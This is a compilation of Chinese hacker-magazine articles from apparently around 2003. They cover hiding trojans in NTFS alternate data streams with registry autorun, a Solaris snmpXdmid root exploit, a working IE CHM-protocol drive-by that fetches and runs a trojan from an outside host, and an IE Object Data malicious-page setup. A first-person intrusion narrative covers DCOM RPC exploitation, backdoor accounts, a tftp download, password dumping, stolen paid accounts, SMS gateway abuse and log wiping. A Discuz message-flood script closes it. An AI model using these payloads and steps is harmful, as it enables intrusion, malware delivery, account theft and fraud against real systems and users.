从上面的讲解中我们可以想到，既然可以把文件通过数据流的方式存放到另一个程序中，那么我们是不是可以把病毒或者是后门放到里面呢？答案是肯定的。因为目前流行的杀毒软件只把焦点放在缺省的主数据流上，而对其他数据流不屑一顾，就如同一个懒惰的海关官员一样，对被分解成许多部件的行李毫无警戒之心，可万一这些部件组合起来却是违法的，岂不是危害更大？但是要检测出潜伏的数据流还是有点困难的，其中最有效的办法是使用负责检查所有进程的防毒软件来进行监视，后台运行，实时监视所有重要文件的操作。但是许多管理员却不是这么想的，也就是问题所在了，因为实时监视软件会对系统运行速度以及稳定性产生影响，他们比较偏爱那些需要时才启动的防毒扫描程序，而且需要的系统资源也远少于实时监视软件。而且数据流有个可怕的“优点”，当我们把数据流放到文件夹中时，文件大小却没有什么变化，没有安装特定的检测软件是看不出文件有任何变动的。因此，我们就可以利用这些特点来达到我们的目的。

> **提示**
> 利用系统本身的特性绕过防火墙，这是一个非常有效的方法。关心如何绕过防火墙的读者一定要注意了！

### 如何使用 NTFS 数据流

要想亲身体验数据流的弱点，我们可以在任何安装了 NTFS 的 Windows 2000 系统上，自己做一个简单的实验来模拟启动隐藏在数据流中的病毒。大家知道 exe、vbs 以及 cmd 是入侵者最常用用来夹带计算机病毒和后门的 3 种文件格式，今天我们就自己制造出这 3 种文件来，exe 我们可以用后门木马 wollf.exe，并另外写两个简单的程序，分别命名为 test.vbs 和 test.cmd，前者的内容如下：

```
MsgBox "Welcome to www.longker.com"
```

另一个包含以下命令：

```
@echo Welcome to www.longker.com
@pause
```

> 提示：MsgBox 用于显示消息窗口，echo 在 DOS 下用于显示信息，其实两者的功能是一样的。

需要注意的是，test.cmd 内一定要有 @pause 这个命令，否则 Windows 2000 会立刻关闭 DOS 命令窗口的。接下来需要找个可执行文件来当宿主，但在开始实验前记得把这个文件备份以便还原之用。这里选的是 Windows 系统自带的记事本程序 notepad.exe，把它们全部放在 C 盘根目录下。由于安装了诺顿，所以后门木马 Wollf 一下子就被检查出来了（图 1）。


图 1

因此在接下来的实验中，我们需要把诺顿关掉，然后用下面的命令将 3 个程序添加到宿主文件的数据流内：

```
type wollf.exe>notepad.exe:wollf.exe
type test.vbs>notepad.exe:test.vbs
type test.cmd>notepad.exe:test.cmd
```

好了，这样一来，宿主文件 notepad.exe 里就多了 3 个数据流：wollf.exe、test.vbs 和 test.cmd。但是我们发现，notepad.exe 的文件大小没有丝毫改变。接下来怎么执行这些程序呢？我们可以利用下面的方法来执行这 3 个数据流。

- 1. 开始 → 运行，输入下面格式的命令就可以启动每一个数据流了。

```
file:\c:\notepad.exe:数据流名，例如：
file:\c:\notepad.exe:wollf.exe
file:\c:\notepad.exe:test.vbs
file:\c:\notepad.exe:test.cmd
```


图 2

Windows 2000 会顺利地启动各数据流中的程序，图 2 是执行 vbs 的画面。

至于 test.cmd，只见一个 DOS 窗口一闪，就消失了，事实上是没有执行命令的，读者可以自己去试试，试着在 test.cmd 里写入 dir>aa.txt 这样的句子，然后用上面的方法执行数据流，结果是命令没有被执行。exe 执行后则顺利增加了后门服务。

- 2. 用 Cscript 或者是 Wscript 来执行 vbs 文件，结果跟用方法 1 是一样的。
- 3. 我们把数据流文件放到启动中去，重新启动计算机，也自动执行了我们在 vbs 里的命令，但是 test.cmd 里的指令依然没有执行。
- 4. 我们修改注册表，设置为自动运行这几个数据流文件，具体是这样的：在 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 后加上下面的键值：

```
test1=c:\notepad.exe:wollf.exe
test2= c:\notepad.exe:test.vbs
test3= c:\notepad.exe:test.cmd
```

当计算机重新开机时，Windows 2000 也会执行 test.vbs 和 wollf.exe，从而在不修改主数据流（notepad.exe）的条件下顺利达到我们的目的。

以上实验清楚地告诉我们，我们可以在不修改主数据流的条件下，向其添加多个副数据流，从而达到其作为“寄生体”的效果。默认数据流的情况下，偷偷地在同一文件的其他数据流内放入任何程序，并且不为人察觉，是不是很可怕？不过也不要杞人忧天，我们自有方法来对付。

### 如何发现隐藏的数据流

既然数据流有这样或者那样的缺点，并且检查起来很麻烦，那么我们该怎么来发现隐藏的数据流，从而避免坏事的发生呢？这里介绍两个工具给大家，一个是 Stream.exe（图 3）。双击 Stream.exe 后，会显示包含 Stream 功能的文件系统的驱动器目录和文件列表，目前市面上已经包含 Stream 功能的有 NTFS 文件系统，但是 Stream 会检查本机所有允许 Stream 存在的文件系统。当在 Stream 名字上单击右键（比如我们实验的 test.vbs），可以选择删除或者将整个 Stream 转储到文件中，这样一来我们上面实验的 3 个隐藏数据流就被检查出来了，并且还显示了流内容的前两千字节。


图 3

另一个工具是 Lads.exe，这个工具是命令行下的，最新版本是 3.21，下面是它的帮助文件：

```
Usage: LADS [Directory] [/S] [/D] [/A] [/Xname] [/Pfile]
Directory: directory to scan, current if omitted (目录，默认是 lads 所在目录)
/S include Subdirectories (扫描时包含子目录)
/D Debug LADS ;-) (选这个项会显示检测进度)
/A give a summary of All bytes used in the scanned directories (显示扫描到的数据流信息)
/Xname exclude any ADS "name" (扫描包含任何数据流名称)
/Pfile read Parameters from "file" (从文件中读取参数)
```

我们把 Lads.exe 放在 C 盘根目录下就可以用 `Lads.exe /S /D /A` 来自动检查 C 盘下所有含有数据流的文件，那些包含了数据流的文件就会被检查出来了。其他的命令也很简单，这里不再赘述，大家自己去玩玩，很有意思。以下是扫描我们实验中的数据流信息：

```
C:\> lads.exe

LADS - Freeware version 3.21
(C) Copyright 1998-2003 Frank Heyne Software
(http://www.heysoft.de)
This program lists files with alternate data streams (ADS).
Use LADS on your own risk!
Scanning directory C:\
   size  ADS in file
-------------------------
     40  C:\notepad.exe:test.cmd
     35  C:\notepad.exe:test.vbs
  57344  C:\notepad.exe:wolff.exe

  57419  bytes in 3 ADS listed.
```

很直观吧？然后我们就可以结合 Stream.exe 来查看里面包含的代码，使恶意代码和木马后门无所遁形。

怎么样，巧妙利用 NTFS 数据流是不是很轻松地就让木马后门遁于无形了，更重要的是，杀毒软件对于这种数据流形式的木马后门根本没有办法来查杀。也许对于 Windows 2000 系统的数据流，大家了解得还是比较少，希望这篇文章可以抛砖引玉，激发大家研究的热情。

### 结后语
文章提供的方法可以很方便地绕过防火墙，但是如果要查杀入侵者种下的后门就相当麻烦了，工作量较大，如果反病毒软件能提供这方面的功能，相信会是一个大卖点！

## 轻松攻击 Linux 主机

文 / 海的归宿

在谈起 RPC 攻击前，我们先来看看什么是 RPC (远程过程调用，Remote Procedure Call)。RPC 是由 Sun Microsystems 开发出来的，是工具和库函数的一个汇集。一个 RPC 服务器是由一些过程的集合组成的，客户可以通过向服务器发出一个带有过程参数的 RPC 请求来调用这些过程。每个集合被称作一个程序 (program)，并且唯一的由一个程序号 (program number) 指定，而映射服务名到程序号的一个列表通常存于 /etc/rpc 中。比如，Red Hat 7.3 中的映射如下所示。

```
Red Hat Linux release 7.3 (Valhalla)
Kernel 2.4.18-3 on an i686
login: chi
Password:
Last login: Fri Mar 21 10:47:22 from 192.168.25.1
[chi@chi chi]$ cat /etc/rpc
#ident "@(#)rpc 1.11 95/07/14 SMI" /* SVR4.0 1.2 */
#
# rpc
#
portmapper 100000 portmap sunrpc rpcbind
rstatd 100001 rstat rup perfmeter rstat_svc
rusersd 100002 rusers
nfs 100003 nfsprog
ypserv 100004 ypprog
mountd 100005 mount showmount
ypbind 100007
walld 100008 rwall shutdown
yppasswdd 100009 yppasswd
etherstatd 100010 etherstat
statmon 100023
status 100024
bootparam 100026
ypupdated 100028 ypupdate
###
```

这上面的只是 RPC 服务集合中的一部分。由于 RPC 提供多项的服务，所以就对使用端口的灵活性有了影响，RPC 应用程序抓取它能得到任何端口，并且用所谓的 portmapper daemon 进行登记注册。后者为所有运行在它的机器上的 RPC 服务器充当代理的角色：一个希望用给出的程序号联系一个服务的客户将首先询问服务器主机上的 portmapper，portmapper 将返回能够到达这个服务的 TCP 和 UDP 端口号。

从上面的分析可见，这些 RPC 服务就是我们的攻击对象了！那么，如何得到对方主机上到底开了什么服务呢？使用下面的命令即可实现。

```
[root@chi chi]# rpcinfo
usage: rpcinfo [ -n portnum ] -u host prognum [ versnum ]
       rpcinfo [ -n portnum ] -t host prognum [ versnum ]
       rpcinfo -p [ host ]
       rpcinfo -b prognum versnum
       rpcinfo -d prognum versnum
[root@chi chi]# rpcinfo -p 211.152.11.201
program vers proto port
100000 4 tcp 111 portmapper
100000 3 tcp 111 portmapper
100000 2 tcp 111 portmapper
100000 4 udp 111 portmapper
100000 3 udp 111 portmapper
..................................................
100001 4 udp 32778 rstatd
100133 1 udp 32775
```

从命令结果我们可以看到，sadmind、rstatd 等服务都开着，接下去就是要寻找可用的 exploit 了。我们可以找到一个 rpc console scanner，不过是在 Linux 或 UNIX 下使用的，需要我们自己动手来修改一下，在其代码中包括如下头文件：

```
#include <rpc/rpc.h>
#include <rpc/pmap_prot.h>
#include <rpc/pmap_clnt.h>
```

不过，Windows 上根本不存在这些头文件，我们要想使用这个程序，还必须再寻找一个 Windows 下的 RPC！该程序为 Netbula ONC RPC For Win32 SDK，下载于 http://netbula.com/oncrpc/oncrpc.zip，下载好后解压 oncrpc.zip 就会看到如下的文件：

```
\oncrpc\oncrpc sdk 的目录

2003-03-22 14:51 <DIR> oncsamples
2003-03-22 14:51 <DIR> oncdocs
2003-03-22 14:51 <DIR> win32lib
<======= 这里是lib 库文件
2003-03-22 14:51 <DIR> samples
2003-03-22 14:51 <DIR> include
<======= 这里是头文件
2003-03-22 14:51 <DIR> docs
2003-03-22 14:51 <DIR> bin
D:\oncrpc\oncrpc sdk\include\rpc>dir
......
2002-06-04 15:21 943 ntblstdio.h
2003-02-18 15:04 3,834 Pmap_cln.h
<======= 和 Pmap_clnt.h一样
1996-10-15 04:42 3,469 Pmap_pro.h
<======= 和 Pmap_prot.h一样
1996-10-15 04:43 1,921 Pmap_rmt.h
```

在这其中正好有我们需要的头文件，还有 win32lib 文件下面的 pwrpc32.lib 库文件。如果你安装了 VC++ 6.0 的话，就把头文件复制到\Program Files\Microsoft Visual Studio\Include，把 pwrpc32.lib 复制到 \Program Files\Microsoft Visual Studio\Lib 下面，然后就开始修改代码了，具体如下：

```
/*****************************************/
// rpc scanner by console
// easily add a new service by adding a id and
// a name to the rpc_targets struct
// should work on most OS's
// tested on redhat, solaris7, and openbsd
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <rpc/rpc.h>
#include <rpc/pmap_pro.h>
#include <rpc/pmap_cln.h>
#pragma comment(lib, "WS2_32.LIB")
/* winsock2的库文件 */
#pragma comment(lib, "pwrpc32.lib") /* rpc的库文件 */
void usage(char *name) {
fprintf(stderr, "Usage: %s <ip>\n", name);
exit(1);
}
struct rpc_targets {
int id;
char *name;
};
struct rpc_targets targets[] =
{
{ 100000, "none" },
{ 100083, "cmsd" },
{ 100068, "ttdbserverd" },
{ 100232, "sadmind" },
{ 100024, "statd" },
{ 300019, "amd" },
{ 0, 0 }
};
int checkrpc(char *host)
{
struct sockaddr_in rpcaddr;
struct pmaplist *head;
struct hostent *he;
int i, id, sock;
if ((he=gethostbyname(host)) == NULL)
return -1;
memset(&rpcaddr, 0, sizeof(struct sockaddr_in));
rpcaddr.sin_family = AF_INET;
rpcaddr.sin_port = htons(PMAPPORT);
memcpy(&rpcaddr.sin_addr.s_addr, he->h_addr_list[0], he->h_length);
while((head = pmap_getmaps(&rpcaddr)) != NULL)
{
for ( ;head != NULL; head=head->pml_next)
{
for (i=0; targets[i].id; i++) {
if ((id = head->pml_map.pm_prog) == targets[i].id) {
printf("%s is running %s\n", host, targets[i].name);
}
}
}
}
return 0;
}
int main(int argc, char **argv)
{
if (argc != 2) usage(argv[0]);
checkrpc(argv[1]);
return 0;
}
/************************************************/
```

SunOS 5.8
login: ^C

Solaris 2.6/2.6/2.8 3个版本都携带了一个名为 snmpXdmid 的 RPC 服务，这个服务主要用于在 SNMP 管理请求和 DMI 请求之间建立一种映射/转换关系。snmpXdmid 存在一个远程缓冲区溢出漏洞，恶意的远程用户可以向 snmpXdmid 发送一个畸形的 RPC 请求，最终导致一次标准的栈式缓冲区溢出。由于 snmpXdmid 是以 root 身份启动的，所以攻击者成功后将立即得到一个 root shell。

```
[chi@chi chi]$ cat >snmpxdmid.c
代码
..............来自 lsd-pl.net
^C
```

```
[chi@chi chi]$ gcc -o snmpxdmid snmpxdmid.c
snmpxdmid.c: In function 'main':
snmpxdmid.c:181: warning: passing arg 3 of pointer to function from incompatible pointer type
snmpxdmid.c:181: warning: passing arg 4 of pointer to function from incompatible pointer type
snmpxdmid.c:181: warning: passing arg 5 of pointer to function from incompatible pointer type
[root@chi root]# ./snmpxdmid
copyright LAST STAGE OF DELIRIUM mar 2001 poland //lsd-pl.net/
snmpXdmid for solaris 2.7 2.8 sparc
usage: ./snmpxdmid address [-p port] -v 7|8
[chi@chi chi]$ ./snmpxdmid 211.152.11.201 -v 8
copyright LAST STAGE OF DELIRIUM mar 2001 poland //lsd-pl.net/
snmpXdmid for solaris 2.7 2.8 sparc
adr=0x000e69c0 timeout=10 port=1026 connected!
sent!
SunOS business 5.8 Generic_108528-05 sun4u sparc SUNW, Ultra-250
id
uid=0(root) gid=0(root)
```

上面程序的原理就是使用 pmap_getmaps() 来获得端口号码，然后和 /etc/rpc 里面对照，就可以看出是什么服务了。struct rpc_targets targets[] { } 里面可以自行加上要扫描的服务。这个程序只是一个例子，运行起来没有在 Linux 下的那么流畅，其用法如下：

```
rpc 211.152.11.201
Netbula RPC Time Limited Demo, Commercial Distribution Prohibited! 59 days left
in trial period.
211.152.11.201 is running ttdbserverd
211.152.11.201 is running ttdbserverd
211.152.11.201 is running statd
211.152.11.201 is running statd
211.152.11.201 is running cmsd
211.152.11.201 is running ttdbserverd
211.152.11.201 is running ttdbserverd
... ...
```

编译成功之后，就是对相应的服务进行攻击啦！

```
[chi@chi chi]$ telnet 211.152.11.201
Trying 211.152.11.201...
Connected to 211.152.11.201.
Escape character is '^]'.
```

上面所讲的可以说是很久以前就有了的漏洞，不过到现在为止，我们还是可以很轻松地找到这类主机。如果你明白了以上的原理，同时编译一些适用的工具，想要入侵这类主机，相信不会再是什么难事了。

### 无坚不摧的杀手锏

文 / 冰狐浪子

### ——利用 Windows 帮助文件漏洞运行木马

一次偶然的测试中，我发现 Microsoft Windows Help (Windows 帮助文档 chm) 的访问协议 “mk:@MSITStore:”、“ms-its:” 和 “its:” 存在安全漏洞，使用这3种协议来访问互联网上的任意文件 (包括 exe 文件)，IE 会在没有任何提示的情况下把文件下载到 Internet 临时文件目录 Temporary Internet Files 中，这样就会使得黑客可以把木马下载到用户的硬盘中，伺机运行，从而造成安全隐患。下面就来看看它们是如何被利用的吧！

### 测试代码

在 IE 地址栏中输入 its:http://godog.y365.com/lzqb/lzqbswf2.zip，然后打开 Internet 临时文件夹 Temporary Internet Files，就可以看到 lzqbswf2.zip 文件 (或者在硬盘中搜索 lzqbswf2[1].zip，如果能找到，则说明存在此漏洞。再把下面的代码保存为 test.htm，然后用 IE 打开 test.htm。

```
html
<iframe name=icyfox style="left:0%;top:0%;height:100%;width:100%;" src="mk:@MSITStore:http://godog.y365.com/lzqb/lzqbswf2.zip"></iframe>
```

同样，打开 Internet 临时文件夹 Temporary Internet Files，就可以看到 lzqbswf2.zip 文件。

### 漏洞利用

大家是否记得黑洞 2002 的图片木马？它把 exe 文件转换为 BMP 文件，利用<APPLET HEIGHT=0 WIDTH=0 code=com.ms.activeX.ActiveXComponent></APPLET>漏洞找到 Internet 临时文件夹中的图片，再利用 DEBUG 还原后运行木马。

而现在却可以不需要文件变换，更不需要用 DEBUG，只用发现这个漏洞，把木马下载到 Internet 临时文件夹 Temporary Internet Files 中，再利用 com.ms.activeX.ActiveXComponent 漏洞找出并运行木马即可！下面是漏洞的利用代码：

```
javascript
// 使用时请把 http://godog.y365.com/icyfox.exe 换成你自己的程序路径：
<iframe style="display:none;" src="its:http://godog.y365.com/icyfox.exe"></iframe>
<script>
document.write("<APPLET  HEIGHT=0 WIDTH=0 code=com.") ;
document.write("ms.activeX.ActiveXComponent></APPLET>");
function A(){ g=0; a=document.applets[0]; 
setCLSID("{0D43FE01-F093-11CF-8940-00A0C9054228}"); a.createInstance(); f=a.GetObject(); a.setCLSID("{F935DC22-1CF0-11D0-ADB9-00C04FD58A0B}"); a.createInstance(); w=a.GetObject(); b=f.GetFolder(w.RegRead("HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders\Cache")); B(f.GetParentFolderName(b)+""+b.name); }
function B(e){ var c=new Enumerator(f.GetFolder(e).SubFolders); //同时，把下面的 icyfox[1].exe 换成换成你自己的程序名字，注意要改为 icyfox[1].exe 的格式，即多了“[1]”，同时请把程序名字设得复杂些以防重名 for (;!c.atEnd();c.moveNext()){d=c.item()+"\icyfox[1].exe"; if(f.FileExists(d)){ if(g==0){g=1;w.Run("""+d+""");};}; B(c.item());}} setTimeout("A()",1000);
</script>
```

只要将以上代码根据自己的实际情况稍作修改并保存后，找到存在的漏洞，利用社会工程学欺骗别人运行此文件，则木马就可被悄无声息地执行了。是不是简单又有效果？不过，以上代码仅限于大家用于研究试验之用，千万不要用于破坏哦！

## 警惕！来自客户端的威胁 —— IE Object Data 远程运行恶意代码漏洞

对于很多恶意网页，以前我们可以通过调整 IE 安全级别来阻止那些恶意代码的执行。尽管严格的 IE 级别也会给我们自己也带来很多限制，但是为了安全，也很值得。或许，我们都愿意相信的的确是一个行之有效的确保安全的方法，然而，当事实再次残酷地摆在我们面前，毫不留情地证实我们在安全防范上面的所作所为其实还是那么不堪一击的时候，我们还能说些什么呢？

文 / EOP-O

夜已深，我们终于打完接踵而至的 Windows 服务端应用程序和服务的补丁，疲惫地靠在电脑椅上，点上一支烟，长叹一声：“唉，终于安全了！”安全了吗？当无数 Windows 用户兴高采烈地浏览着精彩万分的网页的时候，无辜的他们却不知道攻击来自于服务器！IE 差劲的安全性无疑又为网络安全打开了一个潘多拉魔盒。

几个月以前，兄弟们就开始不断地要我测试这个页面那个页面，往往一分钟以后他们就在 QQ 上开始叫唤：“哈哈，我又进到你的机器了，还有 sex 哦，不错不错……”我麻木了，真的麻木了，直到最近一次机器再次被入侵的时候，我看了看相关的漏洞描述，我愤怒了，如此简单的漏洞利用方法，如此大的危险性，我还能说些什么呢？这就是最近被 eEye 发现公布的 IE Object Data 远程执行恶意代码的漏洞。

首先看看漏洞描述 这是微软 HTML Object 标签的一个漏洞。Object 标签主要用来把 ActiveX 插入到 HTML 页面里，由于加载程序没有根据描述远程 Object 数据位置的参数检查加载文件的性质，因此，和其他文件或“安全”的 HTML 内容一样，Web 页面里的木马会悄悄地执行。参看 eEye 的例子可以知道，对于 DATA 所标记的 URL，IE 会根据服务器返回的 HTTP 头中的 Content-Type 来处理数据，也就是说如果 HTTP 头中返回的是 application/hta 等，那么该文件就能够执行，而不管 IE 的安全级别多高。

知道了漏洞的原理，我们应该知道危害之大了，攻击者可以利用网页、邮件、新闻组进行攻击，IE 的用户数量也是毋庸置疑的，可见传播范围，途径是非常之多的。多数用户记得给服务器打补丁，利用 Webdav、DCOM RPC，但是往往会忽视 IE 的查漏补缺，潜在威胁也很大，也许有人要说，那也只是几个用户被黑啊。这样说是彻底错误了，试想公司内部的成员被入侵不是会给内部网络造成很大的威胁吗？如果一个访问量还算不错的站点被入侵，然后利用这个漏洞，然后访问的所有用户都会遭受不同程度的损失，这个损失就不是主页被黑那么简单了。当然，解决问题的关键还是在使用 IE 这个软件的用户本身。

用例子说明一切吧。首先在 HTTP 服务上放一个名为 M$.html 的文件，内容如下：

```
html
<html>
<body>
God.......
<object data="http://127.0.0.1/M$.dead"></object>
</body>
</html>
```

这里关于如何做得更加有迷惑性，大家可以自由发挥。比如你要发送的目标是喜欢 GAME 的人，你可以取名为 PS2MOVIE.html，内容放上一些吸引人的动画 Movie 链接，说不定他还会帮你传播。

另外，再根据 Object Data 的内容，相应地在你的 HTTP 服务器里面放入一个 M$.dead 文件，内容如下：

```
html
<html>
<object id='wsh' classid='clsid:F935DC22-1CF0-11D0-ADB9-00C04FD58A0B'></object>
<script language="VBScript">
Dim fs, t
Set fs = CreateObject("Scripting.FileSystemObject")

```

## 免费才是我们的最爱 —— 从免费电影下载到免费发送短信

文 / redneck

在获取我们的免费资源之前，我们先来看一下整个入侵过程的思路，以便于我们更好地理解后面的入侵过程。本次入侵主要利用了目前最流行的DCOM RPC漏洞入侵一个收费电影下载服务器，然后得到了可以下载的账户；接着通过分析这个站点的PHP，找到了提供短信注册服务的服务器的IP以及账号密码，从而获得了免费发送短信的机会。简要介绍完了，来看看这次攻击的过程。

准备工具：
- 1. XScanV2.3+DCOM RPC plugin：扫描使用。
- 2. cndcom：攻击的尖刀。
- 3. HBULOT：开3389的超级懒人工具。
- 4. CISCO TFTP32：向肉鸡上传东西的超好工具。

### 前期攻击

首先是一个XSCAN2.3的插件：DCOMRPC.xpn。扫描的时候设置的是扫描80、3389端口和DCOM RPC漏洞，这样的话，扫出结果后首先可以看看是不是网站，而开了3389的话，就更省事了。不一会儿，一大片有漏洞的服务器出来了。随便挑一个，假设IP地址为111.111.111.111，是一个电影下载网站。呵呵，就拿这个开刀吧，以希望得到账号下点免费电影看(图1)。

在扫描到具有DCOM RPC漏洞的服务器后，使用cndcom工具进行攻击，其命令如下：

```
cndcom 17 111.111.111.111
```

运气很好，一下就OK了，之后得到admin权限，首先还是添加一个账户(图2)。

```
net user redneck 1983 /add
net localgroup administrators redneck /add
```

然后开一个TFTP-SERVER，上传hbulot.exe，其命令为：

```
tftp -i 61.xx.xx.xx get hbulot.exe
```


完成之后，再来一个Windows自带工具 tlist.exe (别说你没有哦)，因为没开TerminalServices，无法运行query user，所以用tlist查看winlogon，哈哈，管理员太照顾了，administrator是锁定的。这种情况下，一般都是管理员不在机器旁边的。这样的机器最好，不管做什么只要最后删日志，谁都不知道发生了什么。

随后上传一个findpass.exe，用来查看别人密码怎么设的，万一那个账号被删而管理员又忘记改自己的密码，还是有点用处的，命令为：findpass serv administrator 204，好了，看到了，又是英文+数字+特殊符号：tanjie~(84,位数不多但是暴力破解没什么希望)。

运行hbulot/r，一小会儿后机器会自动重启。稍后自己再开一个CMD，ping 111.111.111.111 -t，ping到了以后再等一会儿TerminalServices就会启动了，连接。

首先依然是到C:\Documents and Settings里面隐藏自己账户的目录\redneck，然后看机器配置、硬盘内容等等。发现是个Xeon1.8G、2G-RAM、4个80G硬盘，而且剩余空间挺多。不错，地方不小，又可以给自己开FTP啦!

### 破解电影下载账号

看看硬盘D里的Web目录，怎么发现3个子目录? 一个www.xfilm.com，电影网站; 一个www.xbbs.com，时尚论坛; 一个www.xpic.com，提供桌面图片下载。3个站点一个主机，机器再好也快不到哪里去! 随便溜达了一下，除了电影，没什么感兴趣的了。OK，到SERV-U里面加了一个账户redneck，权限读写，主目录设为D，准备下载电影上传私人工具喽

不过郁闷的事情出现了。在xfilm目录里面，还有一个film目录，包含所有的电影，可是，文件名竟然不是电影的名字! 都是01.MPG、02.RM、03.AVI等等，根本无法区分是什么电影，这岂不是要累死我这样的FTP下载? 真不知道别的FTP用户怎么办，是不是注册的时候发一份目录?

于是我又满世界(不对，是硬盘)找电影目录一类的文件，找到一份EXCEL表格，就几个写着名字，没做完。算了，不是那么多注册会员呢吗，找一个HTTP下载的吧。数据库是MySQL的，相对SQLServer，我不是非常的熟悉MySQL，不过无非都是点儿SQL语言。到PHP网页里找账号，然后在D:\MYSQL\BIN\下打命令mysqlc -u muser -p提示输入密码，进去后，先show databases，然后use movie，show tables，有一个user_access，估计就是它了，SELECT * FROM user_access，账号密码尽在眼前。之前看PHP的时候知道了一点，state字段为0的是临时会员，只能浏览; 1的是1个月会员; 15的是终身会员。于是找了一个stat为15的会员，到Web里一试，OK，开始下载Matrix2了(图3)。

呵呵，偷看人家的HTTP账号本不是初衷，没办法!


也许有的朋友会问为什么不添加一个自己的HTTP账号，这样以后就不用使用别人的了。是这样的，我一边入侵一边和这个网站的工作人员聊天(当然不是在这个机器上啦)，他告诉我说现在网站内容调整，暂时不接受新用户注册，要等一个星期左右。我一想，我现在要是添加一个新账户，明天赶上他检查数据库，岂不是暴露? 所以只好一直用别人的啦! 没关系，反正是包月，下载多少都是花一样的钱。

### 免费短信

在下载电影的时候有点空余时间，继续看数据库。哎? 刚才没注意，怎么会员账号都是13x打头的11位数字啊！都是手机号码！再一细看,原来这个电影网站是用手机注册会员,费用从手机里面扣除。注册的时候,手机号码就是账户名称,发过来一条短信,是密码,你把收到的这个密码填回到Web里就算注册成功了。而这条短信是免费的。想到什么了吗?对,修改它发送的内容,我们就可以免费发送我们自己的短信了。比如它过去发送的内容是“您好,您在XFILM注册的密码是123456,请尽快访问XFILM确认!”我们改成“晚上老地方一起吃饭,redneck”注册号码写你朋友的号码,就OK了。

原理很简单,可是这么改要放到人家主页上,自己想用老要访问他们的主页,太麻烦,于是干脆把关键的一点点代码COPY出来,自己再写一下放到自己家。其实,对于网上发短信我一直很想但是一直没机会了解,根本没找到什么相关的资料,所以我下面的分析也许有错误,还请懂行的朋友不要嘲笑,能够给予指正。下面是那篇发送短信的PHP节选下来的代码：


不懂PHP的朋友还请自己看看基本语法,个人感觉PHP比ASP更干净,也更好学。

最后发现不过是用smsuser/123321联入一个MySQL服务器222.222.222.222,然后在send中添加一个发送的数据,格式在开头的注释里写得很清楚。大概每1分钟,电信的短信发送服务器会从222.222.222.222读入新的没有发送的数据,然后发送。具体怎么发送我们就不管了,只要能把数据插到222.222.222.222的数据库里就会有人帮我们发了。随后我又重新写了一个PHP网页,增加$msg和$num表单,这样就可以任意提交内容和号码,然后运行,等了几分钟,成功了!图4所示是这个短信数据库的小部分内容。

这里要说明一下,网上发短信是很慢的,一般都要等1~2分钟,所以大家注册网站会员的时候,要有耐心哦!


图 4

### 打扫战场

虽然想拿到的都拿到了,但是还是挺想留着这个机器的,毕竟配置还不赖。于是又去克隆管理员账号,但是发生了我一直不明白的事情,我现在使用CNC的ADSL,远程IPC$连接就没成功过。IPC$没戏,那么克隆账号,OPENTELNET开telnet就不可能。在这里还请问高人有知道原因的没有。实在没办法只好上一个有固定IP的肉鸡,用那个连。接着修改TerminalServices的端口,3389太明显了,还是避避风头,修改一下注册表就可以实现：查找[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp],其下有一个PortNumber值,默认是3389,修改成别的就好,不过要等到重启服务后才起作用。最后是删除日志,这里就不废话了。

### 总结

大家入侵的网站我想也不少了,得到权限之后还能做什么呢?除了作个代理,当个临时FTP,我想,深入挖掘点东西出来也挺有意思的,能从这个站点得到信息从而继续入侵另一个站点,应该是最大的收获之一了。

另外声明,本着HACKER免费的精神,我应该把这个免费电影下载账号和SMS账号提供给大家的。但是,由于电影下载账号是手机号码,不好给人公开,SMS这个免费又不是真正的免费,我们用了还是要有支付账的,因此,就在写到这里了,大家谅解哦。

## Discuz论坛 短消息未限制发送次数缺陷

对于很多论坛来说，短消息的发送次数及时间间隔都没有做出限制，应该说这算不上是论坛的漏洞，但是其的确是一种缺陷，因为其可能导致有用心者对论坛进行无休止的攻击，耗费宝贵的网络资源。本文提出了这个问题，如果可以引起某些论坛作者的注意，也就倍感欣慰了。

难度等级: 低           前置知识: 熟悉脚本基本语法

Discuz论坛是由Crossday 工作室(www.discuz.com)开发的PHP论坛系统。“是一个经过完善设计,适用于各种服务器环境的高效论坛解决方案。Discuz!从创立之初即以提高产品效率,切实降低企业成本,提高企业竞争力为突破口,经过一年多对新内核的架构,开发与实际测试,使得其短期内从众多竞争对手中脱颖而出,实现了前所未有的负载能力。”以上是官方的介绍。作为论坛来说,Discuz的确速度一流。可是安全性还有待提高。

### 涉及版本

目前(2003/9/21)所有免费版本(我没有商业版)

### 描述

由于pm.php发送消息那部分代码缺乏对时间间隔的限制，导致任何用户可以对任何用户发送消息炸弹，服务器空间、资源被消耗,严重可导致拒绝服务。

### 具体分析

大家可以看到pm.php文件的86行的代码:

```
php
86 } elseif($action == 'send') {
87
88 if(!$pmsubmit) {
......
179 showmessage('pm_send_succeed', 'pm.php');
```

```
180 }
```

这部分代码没有检测用户发送短信的时间间隔限制代码。我们只要注册任意一个用户登录后,提交：

http://127.0.0.1/discuz/pm.php?action=send&pmsubmit=submit&msgto=angel&subject=test&message=test

就可以轰炸angel这个用户了。我们也可以编制程序提高攻击效率:

```
c
#include<stdio.h>
main()
{
int i;
for(i=0;i<55933;i++)
{
printf("\nwww.xxx.com/discuz/pm.php?action=send&pmsubmit=submit&msgto=angel&subject=test&message=test",i);
}
}
```

### 后记

本文利用程序比较简单,因为利用方法本身就非常简单,无非也就是一个循环而已。但是其危害性却是相当大的。这的确不应当算是软件漏洞,但是如果可以引起我们的足够重视,我们的论坛应当更加稳定许多。那么如何防范呢?那就请看防范的相关内容了。

先进的防火墙系统阻止了黑客对网络共享的直接访问，网管们也给他们的服务器打上了最新的补丁以防止“红色代码”和“冲击波”这样的蠕虫。当然，用户的密码也开始变得比以前“强壮”了许多。但是我们难道真的安全了么?

难度等级 初级
前置知识 IIS相关知识,跨站攻击的部分原理

## 为什么被忽视的总是我 —— 浅谈 Web 攻击

文 / 欲望之翼

尽管现在的安全状况比几年前好了很多,但是很多的站点仍然存在着很多易受攻击的漏洞。通过IPSec阻止对端口的访问、给系统打上最新的补丁并没有阻挡黑客的攻击,这样反而使他们找到了更多的方法来攻略系统,而首先他们注意的往往是你的 Web 应用程序。

